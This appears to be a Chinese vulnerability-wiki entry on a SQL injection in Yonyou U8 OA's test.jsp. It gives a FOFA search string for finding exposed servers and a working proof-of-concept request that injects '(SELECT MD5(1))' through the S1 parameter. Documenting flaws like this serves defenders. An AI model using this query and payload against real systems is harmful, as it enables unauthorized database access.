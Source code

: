 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

<a-checkbox checked>用友 U8 OA</a-checkbox></br>

## FOFA

<a-checkbox checked>"用友U8-OA"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/yongyou-11.png)

验证POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```



![img](../../../.vuepress/public/img/yongyou-12.png)